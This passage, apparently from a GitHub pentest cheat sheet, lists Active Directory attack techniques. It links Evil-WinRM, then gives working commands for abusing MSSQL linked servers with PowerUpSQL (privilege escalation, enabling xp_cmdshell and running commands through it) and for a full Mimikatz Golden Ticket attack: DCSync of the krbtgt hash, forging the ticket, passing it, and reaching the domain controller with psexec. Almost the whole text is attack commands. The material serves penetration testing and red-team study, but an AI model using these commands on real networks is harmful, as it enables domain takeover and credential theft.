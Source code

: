 | Command  | Descriptions |
| -------- | ------------ |
| [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) | This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. |

## Database Links

```bash
# PowerUpSQL
https://github.com/NetSPI/PowerUpSQL

Get-SQLServerLink -Instance server -Verbose
powershell.exe -c "Import-Module C:\Users\Public\PowerUpSQL.ps1; Invoke-SQLEscalatePriv -Verbose -Instance ECORP\sql"

# To see servers 
select srvname from master..sysservers;

# Native
Get-SQLServerLinkCrawl -Instance server -Query "exec master..xp_cmdshell 'whoami'"

# Linked database tables
select * from openquery("ECORP\FOO", 'select TABLE_NAME from FOO.INFORMATION_SCHEMA.TABLES') 

# You can also use meterpreter module exploit/windows/mssql/mssql_linkcrawler
# With meterpreter module you can find linked databases and if you are admin on them

# You can do a query and try to enable xp_cmpshell on that server
select * from openquery("server",'select * from master..sysservers') EXECUTE AS USER = 'internal_user' ('sp_configure "xp_cmdshell",1;reconfigure;') AT "server"
```

## Golden and Silver Tickets

```bash
# Golden Ticket
# Extract the hash of the krbtgt user
lsadump::dcsync /domain:evil.corp /user:krbtgt
lsadump::lsa /inject
lsadump:::lsa /patch
lsadump::trust /patch

# creating the ticket 
# /rc4 or /krbtgt - the NTLM hash
# /sid you will get this from krbtgt dump
# /ticket parameter is optional but default is ticket.kirbi
# /groups parameter is optional but default is 513,512,520,518,519
# /id you can fake users and supply valid Administrator id 

kerberos::golden /user:VALUE /domain:evil.corp /sid:domains-sid /krbtgt:krbtgt-hash /ticket:ticket.kirbi /groups:501,502,513,512,520,518,519
kerberos::ptt golden.tck # you can also add /ptt at the kerberos::golden command
# After this , final ticket must be ready

# You can now verify that your ticket is in your cache 
powershell.exe -c "klist"
# Verify that golden ticket is working
dir \\DC\C$
psexec.exe \\DC cmd.exe

# Purge the currently cached kerberos ticket
kerberos::purge 

#metasploit module can also be used for golden ticket, it loads the ticket into given session
```
